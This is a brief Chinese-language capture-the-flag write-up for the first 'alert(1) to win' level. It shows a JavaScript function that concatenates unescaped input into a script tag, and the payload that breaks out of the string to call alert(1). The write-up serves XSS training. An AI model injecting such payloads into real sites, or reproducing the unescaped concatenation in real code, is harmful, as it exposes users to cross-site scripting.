 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 01 - Warmup](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/05/30/pid-3865/)]

------

## 题目

```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

------

## 解题报告

水题，闭合函数即可，payload 如下：

```javascript
");alert(1);("
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2001%20-%20Warmup/imgs/01.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
